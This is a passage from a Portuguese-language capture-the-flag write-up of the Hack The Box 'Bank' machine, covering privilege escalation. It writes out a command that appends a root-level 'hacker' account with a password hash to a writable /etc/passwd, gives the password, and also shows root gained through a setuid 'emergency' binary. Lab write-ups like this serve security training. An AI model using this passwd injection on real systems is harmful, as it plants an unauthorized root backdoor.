 Executamos na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_lin2.png)

Encontramos duas coisas interessantes nela

Podemos escrever no `passwd`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_lin3.png)

Tem um binário muito estranho que tem permissões de root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_lin4.png)

## 1º Modo através do Passwd

Bom, como sabemos que podemos escrever no passwd, vamos colocar um conta de 'root' lá e logar via ssh

Nota
```
O passwd, em algumas versões antigas aceita que sejam inseridas senhas nele, como vou fazer agora, não vou demonstrar como gerei esse hash e tudo mais pq eu já fiz em outra máquina aqui.
```

O comando é:

`echo "hacker:aaDUnysmdx4Fo:0:0:hacker:/root:/bin/bash" >> /etc/passwd`

hacker:senha

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_passwd.png)

Logamos via ssh

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_passwd1.png)

Viramos root!

## 2º Modo através do binário Emergency

Vimos um binário muito estranho ali, vamos ver do que se trata

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_bin.png)

Apenas tentamos executar ele, e já viramos root!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_bin1.png)

### Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B-user.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_root.png)

